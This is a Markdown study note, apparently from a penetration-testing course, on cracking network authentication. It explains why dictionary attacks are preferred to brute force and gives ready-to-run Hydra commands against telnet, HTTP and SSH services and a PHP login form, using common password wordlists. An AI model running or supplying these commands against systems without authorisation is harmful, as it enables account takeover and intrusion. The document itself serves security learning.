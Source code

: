 # Network Attacks

## Authentication Cracking

A similar approach to cracking a password can be used for every service requiring network authentication as: `ssh`, `telnet`, remote desktop, HTTP authentication, etc.

## Brute Force vs Dictionary Attacks

Performing pure brute force attacks over a network are very impractical because of the time needed to run each probe:

* Network latency.
* Delays on the attacked service.
* Processing time on the attacked server.
* Network authentication cracking _relies almost entirely on dictionary-based attacks_, using dictionaries of common and default usernames and passwords

### **Hydra**

Fast, parallelized, network authentication cracker that supports different protocols: Cisco auth, `FTP`, `HTTP`, `IMAP`, `RDP`, `SMB`, `SSH`, `Telnet`...

```bash
# To get detailed information about a module:
hydra -U rdp

# To launch a dictionary attack against a service:
hydra -L users.txt -P pass.txt <service://server> <options>

# For instance
hydra -L users.txt -P pass.txt telnet://target.server

# Attack session against a password protected web resource
hydra -L users.txt -P pass.txt http-get://localhost/

# Brute-force login form
# => See Module Info
> hydra -U http-post-form
# Our cmd
> hydra crackme.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:invalid credentials" -L /usr/share/ncrack/minimal.usr -P /usr/share/sseclist/Passwords/rockyou-15.txt -f -V

# Brute-force SSH
hydra 10.10.10.3 ssh -L /usr/share/ncrack/minimal.usr -P /usr/share/seclists/Passwords/rockyou-10.txt -f -V

# -f / -F   exit when a login/pass pair is found (-M: -f per host, -F global)
# -v / -V / -d  verbose mode / show login+pass for each attempt / debug mode
```
